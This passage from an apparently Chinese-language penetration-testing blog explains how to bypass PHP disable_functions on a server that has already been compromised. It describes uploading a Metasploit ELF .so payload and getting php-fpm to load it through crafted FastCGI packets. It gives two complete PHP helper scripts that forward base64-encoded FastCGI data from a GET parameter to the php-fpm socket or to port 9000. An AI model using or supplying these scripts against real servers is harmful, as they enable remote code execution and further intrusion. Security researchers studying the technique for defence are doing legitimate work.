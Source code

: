 
其实就是利用远程指令执行运行了另一个 php 服务，自定义了端口，并且 -n 参数是不使用 php 配置文件的意思，这样就实现了绕过 disable_functions，方便让其他程序畅通无阻的运行虚拟终端，手段确实有趣，不过这里就大可不必了，都能执行命令了还要虚拟终端干啥，另外经过测试也发现这样连接有一定时效性，大概一分钟左右就会断开连接，原因未知，所以为了后续更愉快的玩耍，直接上 msf payload，生成 elf-so 格式的文件后上传站点，然后把自定义的 fastcgi 客户端(https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)参数改下，让包含的 .so 文件为我们的 payload 文件以使其运行：



![cmd-edit-fpm-py](https://img2023.cnblogs.com/blog/1049983/202405/1049983-20240510144354979-1596130339.png)



运行后就会得到构造后的 fastcgi 协议数据（TCP数据流），让服务器 php 发送它就好，所以还需要服务端写个 php 程序来配合发送，这是使用使用套接字文件通信时的文件内容：

```
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL);

$fp = stream_socket_client("unix:///tmp/php-cgi-56.sock", $errno, $errstr, 30);
$url = $_GET['url'];

if (!$fp) {
    echo "Errno: " . "$errstr ($errno)<br />\n";
} else {
    try {
        fwrite($fp, base64_decode($url));
        var_dump(fread($fp, 8192));
    } catch (Exception $e) {
        print_r($e);
    }
    fclose($fp);
}
```

如果是监听本地 9000 端口，可以使用 fsockopen 协议来发送 fastcgi 协议数据，具体就是：

```
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL);

$fp = fsockopen("127.0.0.1", 9000, $errno, $errstr, 30);
$url = $_GET['url'];

if (!$fp) {
    echo "Error: $errstr ($errno)<br />\n";
} else {
	try {
	    fwrite($fp, base64_decode($_GET['url']));
		var_dump(fread($fp, 8192));
	} catch (Exception $e) {
		print_r($e);
	}
    fclose($fp);
}
```
